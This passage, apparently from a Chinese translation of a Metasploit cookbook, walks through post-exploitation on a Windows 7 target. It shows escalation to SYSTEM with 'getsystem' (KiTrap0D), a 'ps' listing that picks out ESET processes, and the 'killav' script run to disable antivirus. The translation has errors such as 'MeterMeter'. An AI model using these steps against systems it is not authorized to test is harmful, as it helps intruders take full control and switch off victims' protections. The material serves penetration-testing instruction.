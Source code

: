 4.  正如我们所看到的， `getsystem`已经成功地使用 `technique 4`提升了我们在已渗透系统上的权限，这是 KiTrap0D 漏洞。我们可以再次使用 `getuid`命令检查新的升级 ID。

    ```
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM 
    ```

5.  现在我们有了主要的管理员权限。下一步将运行 `ps`命令，该命令列出系统上所有正在运行的进程。我们将不得不研究那些控制目标机器上运行的防病毒程序（输出已缩短到适合的程度）。

    ```
    PID Name User Path
    --- ---- ---- ----
    1060 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
    1096 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\system32\.
    1140 stacsv.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
    1152 dsmonitor.exe DARKLORD-PC\DARKLORD C:\Program Files\Uni.
    1744 egui.exe DARKLORD-PC\DARKLORD C:\Program Files\ESET\ESET NOD32 Antivirus\egui.exe
    1832 eset.exe NT AUTHORITY\SYSTEM C:\Program Files\ESET\ESET NOD32 Antivirus\eset.exe 
    ```

6.  从 `Name`和 `Path`列中，我们可以很容易地识别属于防病毒实例的进程。在我们的例子中，有两个进程负责目标系统上的防病毒保护。它们是 `egui.exe`和 `eset.exe`。让我们看看如何使用 Metasploit 终止这些进程。

## 它是如何工作的。。。

MeterMeter 提供了一个名为 `killav.rb`的非常有用的脚本，可用于杀死目标系统上运行的防病毒进程，从而禁用它。让我们在运行 ESET NOD32 防病毒的 Windows 7 目标上尝试此脚本。

```
meterpreter > run killav
[*] Killing Antivirus services on the target... 
```

`run`命令用于在 MeterMeter 中执行 Ruby 脚本。脚本执行后，我们可以再次检查目标上正在运行的进程，以确保所有防病毒进程都已被杀死。如果没有任何防病毒进程正在运行，则意味着目标计算机上的防病毒程序已被临时禁用，我们现在可以继续我们的渗透测试进程。

但是，如果进程仍在运行呢？让我们在下一个食谱中找出解决办法。

# 深入探究 killav.rb 脚本

继续我们之前的方法，我们重点关注如何使用 `killav.rb`脚本杀死目标机器上正在运行的防病毒进程。但是，如果进程仍在运行，或者即使在使用脚本后也没有终止，该怎么办？这可能有两个原因。 `killav.rb`没有将这些进程包括在其要终止的列表中，或者防病毒进程正在作为服务运行。在本食谱中，我们将努力克服这些问题。那么，让我们快速进入我们的食谱。

## 准备好了吗

我们将从结束上一个配方的同一个计量器会话开始。我们曾经使用过 `killav.rb`脚本，但防病毒程序仍在运行。我们可以使用 `ps`命令查看正在运行的进程。

```
PID Name User Path
--- ---- ---- ----
1060 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
1096 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\system32\.
1140 stacsv.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
1152 dsmonitor.exe DARKLORD-PC\DARKLORD C:\Program Files\Uni.
1744 egui.exe DARKLORD-PC\DARKLORD C:\Program Files\ESET\ESET NOD32 Antivirus\egui.exe
1832 eset.ece NT AUTHORITY\SYSTEM C:\Program Files\ESET\ESET NOD32 Antivirus\eset.exe 
```
